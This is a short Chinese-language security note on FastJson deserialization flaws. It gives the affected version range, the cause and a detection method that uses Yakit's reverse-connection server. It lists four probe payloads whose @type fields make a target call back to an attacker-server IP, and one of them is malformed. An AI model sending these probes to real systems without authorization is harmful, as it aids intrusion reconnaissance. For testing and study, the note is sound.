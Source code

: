# 中间库漏洞

中间库漏洞是指由于中间件程序本身存在漏洞或配置不当，导致攻击者可以利用该漏洞对系统进行攻击或获取敏感信息的安全问题。

## FastJson

### 反序列化漏洞

#### 范围

1.2.24版本之后增加了反序列化白名单，但直到1.2.48之前都可以通过构造特殊的json字符串绕过白名单检测

#### 成因

在解析json时，未对json进行验证，直接将json转为java对象执行

#### 检测

先找到参数中内容是 json 数据的接口，配合Yakit的反连服务器，看看有没有访问记录

payload

    {"@type":"java.net.Inet4Address","val":"攻击者服务器IP"}
    {"@type":"java.net.Inet6Address","val":"攻击者服务器IP"}
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"攻击者服务器IP"}}
    {{"@type":"java.net.URL","val":"http://攻击者服务器IP"}:"x"}
    
